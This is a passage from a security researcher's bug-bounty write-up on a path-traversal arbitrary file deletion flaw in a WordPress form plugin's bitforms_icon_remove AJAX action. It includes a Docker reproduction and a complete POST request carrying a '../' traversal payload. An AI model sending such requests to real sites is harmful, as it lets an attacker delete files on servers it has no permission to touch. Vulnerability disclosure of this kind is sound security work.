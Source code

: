 ```php
    }
  }
```

In here, the sink is `unlink()`, which allows this method to delete a file. Then, the source is our **JSON attribute value `file`**. Since there's no sanitization over the `file` value, we can perform **path traversal** to delete any files on the file system!

By searching the method name, we can know that this method was used in AJAX action `bitforms_icon_remove`:

```php
class AdminAjax
{
  public function register()
  {
    [...]
    add_action('wp_ajax_bitforms_icon_remove', [$this, 'iconRemove']);
```

With that said, once we have a valid nonce, we can delete any files on the file system!

Let's try that!

First, create a test file in the Docker container:

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-delete)-[2024.08.22|16:30:16(HKT)]
└> docker container list                                            
CONTAINER ID   IMAGE                               COMMAND                  CREATED          STATUS          PORTS                                                                                  NAMES
9e2f4f189063   wordpress-local-testing-wordpress   "docker-entrypoint.s…"   39 minutes ago   Up 39 minutes   0.0.0.0:80->80/tcp, :::80->80/tcp                                                      wordpress-wpd
[...]
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-delete)-[2024.08.22|16:30:16(HKT)]
└> docker exec -it 9e2f4f189063 bash
root@9e2f4f189063:/var/www/html# echo -n 'test' > test.txt
root@9e2f4f189063:/var/www/html# chown www-data:www-data test.txt
root@9e2f4f189063:/var/www/html# ls -lah test.txt 
-rw-r--r-- 1 www-data www-data 4 Aug 22 08:31 test.txt
```

Then, send the following POST request to `/wp-admin/admin-ajax.php`:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_icon_remove&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 65
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"file":"../../../../../../../../../../../var/www/html/test.txt"}
```
